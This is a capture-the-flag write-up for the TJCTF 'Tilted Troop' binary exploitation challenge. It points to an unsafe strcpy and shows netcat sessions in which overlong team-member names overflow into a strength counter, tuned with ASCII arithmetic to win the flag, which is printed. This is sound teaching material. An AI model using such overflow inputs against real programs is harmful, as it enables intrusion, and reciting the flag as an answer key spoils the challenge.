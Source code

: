 # Tilted Troop
Binary Exploitation - 40 points

## Challenge 

Written by dwiz24

Can you help us defeat the monster? 

[binary](ec2a70a6fb4adde9dd9bc19319524cceffc821486345e4cfc670cd21f80193ed_strover) 
([source](48bd93cb48aab01658f26ef62da5507446f45445aaa83c902bfd9023c803be00_strover.c))

	nc problem1.tjctf.org 8002

## Solution


Looking at the source, the vulnerability is at this line

	strcpy(newMember, &input[2]);

Hence, we can make it such that the input name affects the strength

	$ nc problem1.tjctf.org 8002
	Commands:
	 A <name> - Add a team member
	 F - Fight the monster
	 Q - Quit
	A
	A
	A
	A
	A
	A
	A 
	A
	F
	Your team had 37 strength, but you needed exactly 400!
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
	F
	Your team had 585 strength, but you needed exactly 400!

Now by manipulating the name of the 9th person, we can control the strength

	...
	A a
	F
	Your team had 97 strength, but you needed exactly 400!

	...
	A 0   
	F
	Your team had 48 strength, but you needed exactly 400!

	...
	A 000
	F
	Your team had 144 strength, but you needed exactly 400!

---

After playing around, I got close to 400

	...
	A 00000000
	F
	Your team had 384 strength, but you needed exactly 400!

We are 16 strengths short, so looking at the ASCII table, let's change the first char 16 positions up from `0` to `@`.

	$ nc problem1.tjctf.org 8002
	Commands:
		 A <name> - Add a team member
		 F - Fight the monster
		 Q - Quit
	A  
	A
	A
	A
	A
	A
	A 
	A
	A @0000000
	F
	Wow! Your team is strong! Here, take this flag:
	tjctf{0oPs_CoMP4Ri5ONs_r_h4rD}

## Flag

	tjctf{0oPs_CoMP4Ri5ONs_r_h4rD}

